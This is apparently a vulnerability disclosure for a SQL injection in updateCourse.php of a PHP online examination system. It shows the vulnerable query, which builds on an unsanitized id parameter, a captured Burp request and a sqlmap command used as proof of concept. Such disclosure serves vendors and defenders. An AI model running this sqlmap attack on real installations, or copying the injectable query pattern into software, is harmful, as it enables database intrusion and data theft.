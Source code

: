 ## Online Examination System With Timer

## SQL Injection on `updateCourse.php`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/online-examination-system-with-timer/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/adminpanel/index.php
admin@username
admin@password
```

### Affected Page:

```
/adminpanel/admin/facebox_modal/updateCourse.php
```

The potential injection point is located in `updateCourse.php`. This file directly utilizes the `$id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# updateCourse.php
<?php 
	include("../../../conn.php");
	$id = $_GET['id'];
	$selCourse = $conn->query("SELECT * FROM course_tbl WHERE cou_id='$id' ")->fetch(PDO::FETCH_ASSOC);
?>
```

### Proof of Concept:

**Burp Request:**

```
GET /adminpanel/admin/facebox_modal/updateCourse.php?id=26 HTTP/1.1
Host: 192.168.150.131
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/adminpanel/admin/home.php?page=manage-course
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a3630ea0258c281edaea4e92c6a98410
x-forwarded-for: 8.8.8.8
Connection: close


```

```
python sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot:**

![image-20240513174756199](./screenshot/image-20240513174756199.png)
